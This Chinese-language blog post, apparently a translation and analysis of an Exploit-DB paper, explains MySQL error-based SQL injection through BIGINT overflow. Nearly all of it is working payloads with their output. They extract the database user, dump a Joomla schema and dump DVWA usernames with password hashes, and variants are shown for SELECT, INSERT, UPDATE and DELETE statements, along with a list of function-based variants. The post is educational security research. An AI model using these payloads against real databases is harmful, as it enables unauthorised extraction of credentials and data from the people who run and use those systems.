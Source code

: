 ```yaml
---
layout: post
title: BIGINT Overflow Error Based SQL Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

>根据Mysql BIGINT数据类型，结合Mysql两个小特性，巧妙的构造出新型报错注入。Paper翻译自<a target="_blank" href="https://www.exploit-db.com/docs/37733.pdf">BIGINT Overflow Error Based SQL Injection</a>，这里就分析下此报错注入的方式与原理。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先看看Mysql(>=5.5.5)如何存储整数的，之前的版本当整数溢出的时候不会报错。<a target="_blank" href="http://dev.mysql.com/doc/refman/5.5/en/integer-types.html">Integer Types (Exact Value)</a>**

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/i76ryjtgdh.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**BIGINT数据类型的长度为8字节(64Bytes)，分别用二进制、十进制、十六进制的`signed/unsigned`表示最大值:**

	#signed - Binary、Decimal、Hex
	0b0111111111111111111111111111111111111111111111111111111111111111
	9223372036854775807
	0x7fffffffffffffff

	#unsigned - Binary、Decimal、Hex
	0b1111111111111111111111111111111111111111111111111111111111111111
	18446744073709551615
	0xFFFFFFFFFFFFFFFF

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**分别将`signed/unsigned`的BIGINT最大值进行数学计算，来证明报错的原因：**

	#signed
	mysql> select cast(x'7fffffffffffffff' as signed)/9223372036854775807;
	+---------------------------------------------------------+
	| cast(x'7fffffffffffffff' as signed)/9223372036854775807 |
	+---------------------------------------------------------+
	|                                                  1.0000 |
	+---------------------------------------------------------+
	1 row in set (0.00 sec)
	mysql> select cast(x'7fffffffffffffff' as signed)+1;
	ERROR 1690 (22003): BIGINT value is out of range in '(cast(0x7fffffffffffffff as signed) + 1)'
	
	#unsigned
	mysql> select 18446744073709551615-1;
	+------------------------+
	| 18446744073709551615-1 |
	+------------------------+
	|   18446744073709551614 |
	+------------------------+
	1 row in set (0.00 sec)
	mysql> select 18446744073709551615+1;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**由此看出当BIGINT最大值进行增值运算的时候，`signed/unsigned`都会爆出`BIGINT value is out of range`的错误，也就是溢出了。还有就是Mysql逐位取反的特性，打个比方：**

	mysql> select ~0;
	+----------------------+
	| ~0                   |
	+----------------------+
	| 18446744073709551615 |
	+----------------------+
	1 row in set (0.00 sec)
	mysql> select ~18446744073709551615;
	+-----------------------+
	| ~18446744073709551615 |
	+-----------------------+
	|                     0 |
	+-----------------------+
	1 row in set (0.00 sec)
	
	mysql> select 1-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(0))'
	
	mysql> select 1+~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**也就是说从0逐位取反，得到的数字也正是BIGINT中unsigned的数值范围，这个数值进行数学运算时同样会出现溢出错误。那么怎样能在实际应用当中利用上这个报错呢？接下来就说到了Mysql子查询的一个特性，当查询结果成功返回时，返回值为0，表达式进行逻辑非运算后，返回值则为1，并且这个返回值也可以进行数学运算：**

	mysql> select !(select*from(select user())x)+1;
	+----------------------------------+
	| !(select*from(select user())x)+1 |
	+----------------------------------+
	|                                2 |
	+----------------------------------+
	1 row in set (0.00 sec)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**根据子查询的特点，再结合BIGINT逐位取反的溢出报错。我们就可以进行报错注入了：**

	mysql> select !(select*from(select user())x)-~18446744073709551615;
	+------------------------------------------------------+
	| !(select*from(select user())x)-~18446744073709551615 |
	+------------------------------------------------------+
	|                                                    1 |
	+------------------------------------------------------+
	1 row in set (0.00 sec)
	
	mysql> select !(select*from(select user())x)-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'
	
	mysql> select (select(!x-~0)from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
    
    mysql> select (select!x-~0.from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然可以通过BIGINT溢出配合子查询进行报错注入，那么就可以在实战当中获取到更多的数据：**

	mysql> select !(select*from(select concat_ws(':',id, username, password) from k8fzi_users limit 0,1)x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '533:admin:$2y$10$wE6S6EEj5Xc3/Jo8rQDSAu0mxQr2FmZJmT4SlsXL8PdM8Ymb/82Ly' from dual))) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**因为是BIGINT数值范围溢出特点，那么Mysql中很多数学函数也可以应用到，Mysql的语法灵活，这些数学函数是可以嵌套表达式的，然后将返回值进行运算。**

    select !hex((select*from(select user())x))-~0;
    select !ceil((select*from(select user())x))-~0;
    select !atan((select*from(select user())x))-~0;
    select !rand((select*from(select user())a))-~0;
    select !sqrt((select*from(select user())a))-~0;
    select !round((select*from(select user())a))-~0;
    select !sign((select*from(select user())a))-~0;
    select !floor((select*from(select user())a))-~0;
    select !tan((select*from(select user())a))-~0;
    select !ceiling((select*from(select user())a))-~0;
    select !exp((select*from(select user())x))-~0;
    select !(select*from(select user())a)-~1^200;

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然是报错类型的注入，那么一次性存储也是可以的：**

    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x2d2d,table_name,0x2d2d,column_name)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    joomla_3.4.4--k8fzi_assets--id
    joomla_3.4.4--k8fzi_assets--parent_id
    joomla_3.4.4--k8fzi_assets--lft
    joomla_3.4.4--k8fzi_assets--rgt
    joomla_3.4.4--k8fzi_assets--level
    joomla_3.4.4--k8fzi_assets--name
    joomla_3.4.4--k8fzi_assets--title
    joomla_3.4.4--k8fzi_assets--rules
    joomla_3.4.4--k8fzi_associations--id
    joomla_3.4.4--k8fzi_associations--context
    joomla_3.4.4--k8fzi_associations--key
    joomla_3.4.4--k8fzi_banner_clients--id
    joomla_3.4.4--k8fzi_banner

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**这里纠正一个Paper中错误的观点，文中提到一次性存储表列数据只能取出27行，其实这是报错信息的最大长度所决定的，如果只想取到重要信息的话，Payload中不加库名表名还有分隔符简短点就可以了，一图胜千言。**

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/5u6ehrtsdf.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**当知道库名表名列名后，就可以构造语句获取数据了：**

    #select:
    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #insert:
    mysql> insert into users (user_id,user,password) values (2,'' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0 or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #update:
    mysql> update users set password='root' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #delete:
    mysql> delete from users where user_id='1' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'